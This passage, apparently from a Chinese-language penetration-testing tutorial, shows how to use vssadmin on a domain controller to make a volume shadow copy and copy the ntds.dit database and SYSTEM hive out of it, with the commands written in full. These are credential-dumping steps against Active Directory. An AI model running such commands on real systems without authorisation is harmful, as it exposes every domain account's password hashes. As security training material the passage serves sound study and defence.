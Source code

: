 ##### [vssadmin](#toc_vssadmin)

vssadmin是WIndows Server 2008和Win 7提供的VSS管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息(只能管理系统Provider创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序等，在内网渗透测试过程中，我们也可以使用vssadminn来提取ntds.dit文件，流程如下：

Step 1：在域控制器中打开命令环境，输入如下命令，创建一个C盘的影卷拷贝：

vssadmin create shadow /for=c:

[![image.png](assets/1698894155-4c4a472d0bc5f51d96e548a82f99bbf2.png)](https://storage.tttang.com/media/attachment/2022/09/30/ba5722b4-2d20-4097-b366-05d576cc3128.png)

Step 2:将NTDS.dit和SYSTEM文件从创建的影卷中复制出来

copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\NTDS\\ntds.dit c:\\ntds.dit  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM C:\\SYSTEM

[![image.png](assets/1698894155-3caa500f7def12a2313d1a12fad7cd05.png)](https://storage.tttang.com/media/attachment/2022/09/30/af5d9964-0460-4ab6-bf34-fdd6a76e2e38.png)

之后可以在C盘中看到成功复制ntds.dit文件：

[![image.png](assets/1698894155-551699db690891d7745b2672c55c2320.png)](https://storage.tttang.com/media/attachment/2022/09/30/b964f2ce-1a84-46d1-b028-8a026dafe04f.png)
